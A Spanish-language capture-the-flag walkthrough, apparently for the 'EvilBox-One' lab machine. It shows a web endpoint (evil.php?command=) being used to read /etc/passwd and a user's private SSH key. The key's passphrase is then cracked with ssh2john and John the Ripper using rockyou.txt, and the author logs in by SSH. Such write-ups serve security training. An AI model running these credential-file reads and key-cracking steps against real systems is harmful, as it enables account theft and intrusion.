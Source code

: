 Nos muestra la informacion de usuarios que aparecen en "/etc/passwd"
- mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
- ![passwd](imagenes/passwd.png)

Tenemos el nombre del usuario "mowree" el cual nos indica una ruta "/home/mowree/bin/bash", podemos intentar acceder por ssh pero no contamos con una contraseña, se intento de utilizar "H4x0r", "mowree", "evil", "evilboxone" como contraseña pero no funcionò.

Por lo que tenemos una ruta y buscaremos si cuenta con una llave RSA para conectarse por ssh, por default la ruta de las llaves RSA "/home/nombreUsuario/.ssh/id_rsa" y cuando lo agregamos en nuestra busqueda obtenemos la llave:
- http://192.168.0.40/secret/evil.php?command=/home/mowree/.ssh/id_rsa
- [[LLAVE - RSA]]
- ![rsa](imagenes/rsa.png)

Guardamos en un archivo llamado "id_rsa" y damos permisos:
```
chmod 600 id_rsa
```

Intentamos ingresar al ssh por RSA, pero necesitamos la frase la cual no sabemos eh intentamos con la informaciòn que hemos recopilado y no funciòna:
```
sudo ssh -i id_rsa mowree@192.168.0.40
[sudo] contraseña para hunter: 

The authenticity of host '192.168.0.40 (192.168.0.40)' can't be established.
ED25519 key fingerprint is SHA256:0x3tf1iiGyqlMEM47ZSWSJ4hLBu7FeVaeaT2FxM7iq8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.40' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
```

Por lo que necesitaremos utilizar "ssh2john" para ver si podemos decifrar la palabra clave.
Primero descomprimimos el "rockyou.txt":

```
gunzip rockyou.txt.gz
```

Procedemos a utilizar "ssh2jonh":
```
python3 /usr/share/john/ssh2john.py id_rsa > hash
```

Una ves convertido el RSA A un hash para ataque de fueza bruta para la suite de "john the ripper", procedemos a realizar el ataque de fuerza bruta:
```
sudo john hash --wordlist=rockyou.txt
```
Obtenemos la clave de la frase para el SSH:
- unicorn

Ahora si procedemos a autenticarnos por ssh:
```
sudo ssh -i id_rsa mowree@192.168.0.40
```
